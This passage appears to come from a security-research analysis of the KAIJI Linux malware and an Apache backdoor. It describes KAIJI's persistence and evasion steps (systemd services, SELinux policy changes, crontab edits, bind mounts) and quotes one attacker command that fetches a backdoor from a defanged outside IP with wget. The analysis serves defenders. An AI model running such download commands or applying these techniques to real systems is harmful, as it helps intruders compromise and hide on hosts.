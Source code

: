 Next, the `Systemd Late generator` service file is created. More information on the workings of `Systemd`, and different ways of establishing persistence through this method can be found in our recent blog series dubbed [Linux Detection Engineering -  A primer on persistence mechanisms](https://www.elastic.co/security-labs/primer-on-persistence-mechanisms).

KAIJI creates the `/boot/System.img.config` file, which is an executable that is executed through the previously deployed `Systemd` services. This binary, is amongst other binaries, another way of establishing persistence. 

![KAIJI Dynamic Analysis - Part 3](/assets/images/betting-on-bots/image26.png "KAIJI Dynamic Analysis - Part 3")

Next, KAIJI adjusts the `SELinux` policies to allow unauthorized actions. It searches audit logs for denied operations related to `System.img.conf`, generates a new `SELinux` policy to permit these actions, and installs the policy with elevated priority. By doing this, the malware bypasses security restrictions that would normally block its activity.

Additionally, it sets up multiple additional forms of persistence through bash profiles, and creates another two malicious artifacts; `/usr/lib/libd1rpcld.so` and `/.img`.

Right after, `/etc/crontab` is altered through an echo command, ensuring that the `/.img` file is executed by root on a set schedule.

![KAIJI Dynamic Analysis - Part 4](/assets/images/betting-on-bots/image20.png "KAIJI Dynamic Analysis - Part 4")

KAIJI continues to move several default system binaries to unusual locations, attempting to evade detection along the way.

![KAIJI Dynamic Analysis - Part 5](/assets/images/betting-on-bots/image17.png "KAIJI Dynamic Analysis - Part 5")

KAIJI uses the `renice` command to grant PID `2957`, one of KAIJI's planted executables, the highest possible priority (on a scale of -20 to 19, lowest being the highest priority), ensuring it gets more CPU resources than other processes.

To evade detection, KAIJI employed the bind mount technique, a defense evasion method that obscures malicious activities by manipulating how directories are mounted and viewed within the system.

Finally, we see a trace of `cron` executing the `/.img`, which was planted in the `/etc/crontab` file earlier.

## The saga continues

Two weeks later, the Apache backdoor became active again. Another backdoor was downloaded via the `www-data` user through the Apache2 process using the command:

```
sh -c wget http://91.92.241[.]103:8002/gk.php
```

The contents of this payload remain unknown. At this stage, we observed attempts at manual privilege escalation, with the attackers deploying `pspy64`. `Pspy` is a command-line tool for process snooping on Linux systems without requiring root permissions. It monitors running processes, including those initiated by other users, and captures events like cron job executions. This tool is particularly useful for analyzing system activity, spotting privilege escalation attempts, and auditing the commands and file system interactions triggered by processes in real time. It's commonly leveraged by attackers for reconnaissance in post-compromise scenarios, giving them visibility into system tasks and potential vulnerabilities​.
